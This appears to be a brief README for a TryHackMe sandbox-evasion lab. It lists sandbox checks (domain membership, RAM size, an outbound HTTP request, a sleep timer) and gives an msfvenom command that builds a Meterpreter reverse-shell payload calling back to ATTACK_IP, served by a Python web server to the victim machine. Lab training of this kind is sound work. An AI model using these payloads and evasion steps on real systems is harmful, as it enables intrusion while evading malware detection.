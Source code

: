 # Sandbox_Evasion_THM
escaping the sandbox checker (SandboxChecker.exe)
Check and see if the device is joined to an Active Directory Domain
Check if the system memory is greater than 1GB of RAM
Implement an outbound HTTP request to 10.10.10.10
Implement a 60-second sleep timer before your payload is retrieved from your web server
first u need to create payload from ur attacker machine 
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=4545 -f raw -o index.raw
second open ur webserver to download the code on ur windows machine (victim machine )
 python3 -m http.server (port is by default 8000)
 then go to ur victim machine and run code below 
 search for code u download 
 build it on exe 
 example
 C:\Users\Administrator\Desktop\Materials>.\SandboxChecker.exe sendbox_evasion_THM.exe
